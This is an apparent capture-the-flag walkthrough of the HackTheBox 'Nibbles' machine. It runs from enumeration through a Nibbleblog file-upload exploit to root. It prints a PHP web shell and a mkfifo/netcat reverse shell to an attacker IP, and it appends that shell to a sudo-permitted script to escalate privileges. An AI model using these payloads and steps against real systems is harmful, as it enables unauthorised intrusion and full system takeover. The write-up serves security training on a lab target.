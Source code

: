 `Box: Linux`
`Level: Easy`

### Index
1. [Box Info](#Box%20Info)
2. [Nmap Enum](#Nmap%20Enum)
3. [Web Enum](#Web%20Enum)
	1. [`GoBuster reveals the nibbleblog version`](#`GoBuster%20reveals%20the%20nibbleblog%20version`)
	2. [`Uploading Shell on My Image and getting Reverse Shell`](#`Uploading%20Shell%20on%20My%20Image%20and%20getting%20Reverse%20Shell`)
	3. [`USer Flag Captured`](#`USer%20Flag%20Captured`)
4. [Privilege Escalation](#Privilege%20Escalation)
	1. [`File Trasfer from Target to Kali using PHP`](#`File%20Trasfer%20from%20Target%20to%20Kali%20using%20PHP`)
	2. 

### Box Info
```
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.
```

### Nmap Enum
```
# nmap -p- --min-rate=1000 -sC -sV -sT -T4 -A -Pn nibbles.htb
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

Only two ports are open. Let's dive into web.

### Web Enum

![](nibbles_web0.png)

###### `GoBuster reveals the nibbleblog version`
```
# gobuster dir -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/content              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/content/]
/themes               (Status: 301) [Size: 322] [--> http://nibbles.htb/nibbleblog/themes/]
/admin                (Status: 301) [Size: 321] [--> http://nibbles.htb/nibbleblog/admin/]
/plugins              (Status: 301) [Size: 323] [--> http://nibbles.htb/nibbleblog/plugins/]
/README               (Status: 200) [Size: 4628]
/languages            (Status: 301) [Size: 325] [--> http://nibbles.htb/nibbleblog/languages/]
```

![](nibbles_web1.png)

Looking on Exploit-DB i found that the `Nobbleblog v4.0.3` is vulnerable to Arbitrary File Upload vulnerability. Metasploit module is available but I am going to try it out manually without Metasploit. Looking at the exploit code at [Exploit-DB](https://www.exploit-db.com/exploits/38489) i notice that the file upload require valid set of credentials on `http://nibbles.htb/nibbleblog/admin.php`. I just enter `admin.php` to see if it is present on our target. But I will run the FeroxBuster to enumerate more files. I also ran `ffuf` to enumerate subdomains but didn't find anything interesting.
```
# ffuf -H "Host: FUZZ.nibbles.htb" -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -u http://nibbles.htb/ -mc 200 -fl 17
```

```
# feroxbuster -u http://nibbles.htb/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -C 404 -x php
200      GET       27l       96w     1401c http://nibbles.htb/nibbleblog/admin.php
```

![](nibbles_web2.png)

The default credentials works. 

###### `Uploading Shell on My Image and getting Reverse Shell`

![](nibbles_web3.png)
I uploaded `callmeback.php` from the Nibbles directory. Here's the Content of `callmeback.php` file.

```
┌──(root㉿kali)-[/home/ringbuffer/Downloads/Nibble.HTB]
└─# cat callmeback.php        
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f"); ?>
```
Now getting shell. These file goes to `http://nibbles.htb/nibbleblog/content/private/plugins/my_image` and click on `image.php`. Make suer your NC at port 4444 is running.

![](nibbles_web4.png)

###### `USer Flag Captured`
```
# nc -lvnp 4444                         
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51022
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ ls
db.xml
image.jpg
image.php
$ ls /home
nibbler
$ ls /home/nibbler
personal.zip
user.txt
$ cat /home/nibbler/user.txt
66b0b3fc5944b38
```
Notice the `Personal.zip` in the home directory.
### Privilege Escalation 

##### `File Trasfer from Target to Kali using PHP`
This time I'm trying something different. Trying to transfer file from our target Nibbles to our kali machine using PHP.
```
$ which php
/usr/bin/php
$ cd /home/nibbler
$ php -S 0.0.0.0:8081   #On the Target You will see the next line here once the following wget command pull out the file.
[Sat Sep 28 00:57:33 2024] 10.10.14.8:54430 [200]: /personal.zip
```

Now on Kali
```
# wget http://nibbles.htb:8081/personal.zip                                                  
--2024-09-28 00:57:33--  http://nibbles.htb:8081/personal.zip
Resolving nibbles.htb (nibbles.htb)... 10.10.10.75
Connecting to nibbles.htb (nibbles.htb)|10.10.10.75|:8081... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1855 (1.8K) [application/x-zip-compressed]
Saving to: ‘personal.zip’

personal.zip                              100%[=====================================================================================>]   1.81K  --.-KB/s    in 0.001s  

2024-09-28 00:57:33 (1.92 MB/s) - ‘personal.zip’ saved [1855/1855]
```

###### `LinPEAS Findings`
```
Linux version 4.4.0-104-generic (buildd@lgw01-amd64-022) (gcc version 5.4.0 20160609 (Ubuntu 5.4.0-6ubuntu1~16.04.5) ) #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017
Sudo version 1.8.16 

$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh

```

Running `Sudo -l` command shows that we can execute monitor.sh without PASSWD. Let's add our reverse shell code at the end of the file and run it with sudo.

```
$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.8 4444 >/tmp/f" >> monitor.sh
$ sudo /home/nibbler/personal/stuff/monitor.sh
'unknown': I need something more specific.
/home/nibbler/personal/stuff/monitor.sh: 26: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 36: /home/nibbler/personal/stuff/monitor.sh: [[: not found
/home/nibbler/personal/stuff/monitor.sh: 43: /home/nibbler/personal/stuff/monitor.sh: [[: not found

^C
```

running NC on port 4444

```
# nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.8] from (UNKNOWN) [10.10.10.75] 51060
sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# 
```

